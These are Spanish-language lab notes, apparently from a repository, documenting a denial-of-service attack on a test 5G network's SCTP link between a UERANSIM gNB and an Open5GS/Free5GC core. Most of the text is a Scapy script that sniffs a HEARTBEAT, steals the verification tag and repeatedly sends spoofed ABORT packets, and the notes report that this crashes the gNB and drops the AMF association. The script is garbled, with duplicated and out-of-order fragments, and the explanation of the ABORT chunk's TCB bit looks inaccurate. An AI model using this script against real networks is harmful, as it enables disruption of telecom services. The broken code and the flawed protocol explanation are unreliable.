


# SCTP_Abort (DoS)

\

## Uso de SCTP_CHUNK_ABORT para un DoS en conexiones SCTP

(De momento está probado enviando el abort desde el mismo dispositivo
que inicia la conexión)

    El código utilizado es el siguiente:
    print("\nCaptured HEARTBEAT packet details:")
    print(f"Source IP: {src_ip}")
    print(f"Destination IP: {dst_ip}")
    print(f"Source Port: {src_port}")
    print(f"Destination Port: {dst_port}")
    print(f"Verification Tag: {vtag:#010x}")

    # Step 2: Sniffing stops automatically due to count=1

    # Step 3: Construct SCTP ABORT packet
    abort_pkt = (
        IP(src="10.10.10.7", dst="10.10.10.155") /
        SCTP(sport=dst_port, dport=src_port, tag=vtag) /
        SCTPChunkAbort(TCB=1)
        #SCTPChunkShutdown()
    )

    print("\nABORT packet parameters:")
    print(f"Source IP: 10.10.10.7 (spoofed as Node C)")
    print(f"Destination IP: 10.10.10.155 (Node S)")
    print(f"Source Port: {dst_port}")
    print(f"Destination Port: {src_port}")
    print(f"Verification Tag: {vtag:#010x}")
    print("Chunk Type: ABORT")

    # Step 4: Send the ABORT packet to Node S
    from scapy.all import *
    import time

    # Function to check if a packet is an SCTP HEARTBEAT from Node S to Node C
    def is_heartbeat_packet(pkt):
        return ((SCTP in pkt) and
                (SCTPChunkHeartbeatReq in pkt) and
                (pkt[IP].src == "10.10.10.7") and
                (pkt[IP].dst == "10.10.10.155"))

    # Step 1: Monitor and capture a HEARTBEAT packet
    print("Monitoring network for SCTP HEARTBEAT packet from 10.10.10.7 to 10.10.1.155...>
    packets = sniff(iface="enp0s8", filter="sctp", prn=lambda x: x, stop_filter=is_heartbeat_packet, count=1)

    if not packets:
        print("No HEARTBEAT packet captured. Exiting.")
        exit(1)

    # Extract the first captured packet
    heartbeat_pkt = packets[0]

    # Extract and print required fields
    src_ip = heartbeat_pkt[IP].src
    dst_ip = heartbeat_pkt[IP].dst
    src_port = heartbeat_pkt[SCTP].sport
    dst_port = heartbeat_pkt[SCTP].dport
    vtag = heartbeat_pkt[SCTP].tag

    print("\nCaptured HEARTBEAT packet details:")
    print(f"Source IP: {src_ip}")
    print(f"Destination IP: {dst_ip}")
    print(f"Source Port: {src_port}")
    print(f"Destination Port: {dst_port}")
    print(f"Verification Tag: {vtag:#010x}")

    # Step 2: Sniffing stops automatically due to count=1

    # Step 3: Construct SCTP ABORT packet
    abort_pkt = (
        IP(src="10.10.10.7", dst="10.10.10.155") /
        SCTP(sport=dst_port, dport=src_port, tag=vtag) /
        SCTPChunkAbort(TCB=1)
        #SCTPChunkShutdown()
    )

    print("\nABORT packet parameters:")
    print(f"Source IP: 10.10.10.7 (spoofed as Node C)")
    print(f"Destination IP: 10.10.10.155 (Node S)")
    print(f"Source Port: {dst_port}")
    print(f"Destination Port: {src_port}")
    print(f"Verification Tag: {vtag:#010x}")
    print("Chunk Type: ABORT")

    # Step 4: Send the ABORT packet to Node S
    print("\nSending ABORT packet to Node S (10.10.10.155)...")

    for i in range(1, 11):
        send(abort_pkt, verbose=False)
        print(f"{i} - ABORT packet sent.\n")
        time.sleep(2)

Básicamente realiza las siguientes acciones:

1º Escucha en la interfaz “enp0s8”, que es la que tiene IP 10.10.10.7 y
el servidor/Cliente del GNB de UERANSIM

2º Captura el primer SCTP_HEARTBEAT_REQ que UERANSIM (GNB) envía al
servidor (Open5GS) en la IP 10.10.10.155

3º Copia el TAG de asociación (Verification Tag)

4º Genera un paquete SCTP_CHUNK_ABORT...(Posible detonante: He
modificado el Byte TCB, que por defecto está a 0, por el valor 1)

En el chunk ABORT de SCTP, los campos "reserved"
de 7 bits y "TCB" de 1 bit tienen funciones específicas:

1.  Reserved (7 bits): Este campo está reservado
    para uso futuro y debe ser establecido en cero. No tiene un uso
    definido en la especificación actual del protocolo, pero se reserva
    para posibles extensiones o modificaciones futuras 
2.  TCB (1 bit): El bit TCB (Transmission
    Control Block) se utiliza para indicar si el chunk ABORT contiene
    información adicional sobre el estado de la conexión que puede ser
    útil para el diagnóstico. Si este bit está establecido en 1,
    significa que el chunk ABORT incluye información adicional sobre el
    estado de la conexión

5º Se envía una secuencia de reenvíos de este paquete generado

Al ejecutarlo, el terminal uestr alo siguiente:

Como consecuencia de la secuencia de ABORT, el proceso del GNB entra en
ERROR y se cierra:

Se observa en los logs que los abort acaban generando un SCTP
association shutdown en el Free5GC (concretamente en el AMF) provocado
por una notificación SCTP que no está manejada por el código.

Si observamos la captura (en la máquina que contiene el servidor
Free5GC:

Los primeros Abort no provocan reacción en el servidor. Sin embargo, en
el momento que el Cliente, ajeno a todo este proceso, genera un
HEARTBEAT, el servidor reacciona con su propio ABORT, desencadenado por
el SHUTDOWN de la asociación (con el AMF).

